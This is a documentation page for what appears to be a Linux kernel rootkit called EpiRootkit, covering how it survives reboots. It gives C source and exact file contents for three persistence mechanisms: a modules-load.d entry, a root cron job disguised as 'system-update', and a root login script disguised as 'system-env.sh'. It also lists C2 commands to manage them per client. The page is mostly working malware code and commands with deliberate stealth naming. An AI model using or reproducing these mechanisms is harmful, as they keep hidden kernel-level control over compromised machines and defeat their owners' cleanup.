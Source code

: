 ```yaml
---
title: "Persistence"
description: "Multiple boot persistence mechanisms for rootkit survival"
icon: "refresh"
date: "2025-05-25T00:00:00+01:00"
lastmod: "2025-05-25T00:00:00+01:00"
draft: false
toc: true
weight: 513
---
```


# Persistence

Multiple boot persistence mechanisms to ensure rootkit survival across system reboots.

## Three Mechanisms

### 1. modules-load.d
**File**: `/etc/modules-load.d/epirootkit.conf`  
**Content**: `epirootkit`  
**Trigger**: systemd reads config and loads module automatically on boot

### 2. Cron Jobs  
**File**: `/etc/cron.d/system-update`  
**Schedule**: Every 5 minutes check and load if not present  
**Stealth**: Disguised as system update task

### 3. Shell Profiles
**File**: `/etc/profile.d/system-env.sh`  
**Trigger**: Executes when root user logs in  
**Check**: Loads module if not already present

## Implementation

### Automatic Installation
```c
int persistence_init(void)
{
    pr_info("EpiRootkit: Persistence module initialized\n");
    return persistence_install(); // Install all mechanisms
}
```

### Individual Mechanisms
```c
// modules-load.d persistence
int persistence_install_modules_load(void)
{
    return write_file("/etc/modules-load.d/epirootkit.conf", "epirootkit\n");
}

// Cron persistence (every 5 minutes)
int persistence_install_cron(void) 
{
    const char *cron_content = 
        "*/5 * * * * root /bin/bash -c 'if ! lsmod | grep -q epirootkit; then "
        "modprobe epirootkit 2>/dev/null || "
        "insmod /lib/modules/$(uname -r)/extra/epirootkit.ko 2>/dev/null; fi'\n";
    
    return write_file("/etc/cron.d/system-update", cron_content, 0644);
}

// Shell profile persistence
int persistence_install_shell_profile(void)
{
    const char *profile_content = 
        "#!/bin/bash\n"
        "if [ \"$(id -u)\" -eq 0 ]; then\n"
        "    if ! lsmod | grep -q epirootkit 2>/dev/null; then\n"
        "        modprobe epirootkit 2>/dev/null\n"
        "    fi\n"
        "fi\n";
    
    return write_file("/etc/profile.d/system-env.sh", profile_content, 0755);
}
```

## Usage

### WebUI Control
Access via Persistence panel:
- **Install All**: Enable all three mechanisms
- **Remove All**: Disable all mechanisms  
- **Individual Control**: Toggle each mechanism separately

### C2 Commands
```bash
# Install all persistence mechanisms
persist_install Client-1

# Remove all mechanisms
persist_remove Client-1

# Individual control
persist_modules Client-1    # modules-load.d only
persist_cron Client-1       # cron only
persist_profile Client-1    # shell profile only
```

## Verification

### Check Installation
```bash
# modules-load.d
cat /etc/modules-load.d/epirootkit.conf
# epirootkit

# Cron job
cat /etc/cron.d/system-update
# */5 * * * * root /bin/bash -c 'if ! lsmod | grep -q epirootkit; then modprobe epirootkit 2>/dev/null || insmod /lib/modules/$(uname -r)/extra/epirootkit.ko 2>/dev/null; fi'

# Shell profile
cat /etc/profile.d/system-env.sh
# #!/bin/bash
# if [ "$(id -u)" -eq 0 ]; then
#     if ! lsmod | grep -q epirootkit 2>/dev/null; then
#         modprobe epirootkit 2>/dev/null
#     fi
# fi
```

### Test Persistence
```bash
# Remove module and reboot
rmmod epirootkit
reboot

# Check if module reloaded
lsmod | grep epirootkit
# epirootkit               20480  0
```

All mechanisms are **enabled by default** and can be managed via WebUI or C2 commands.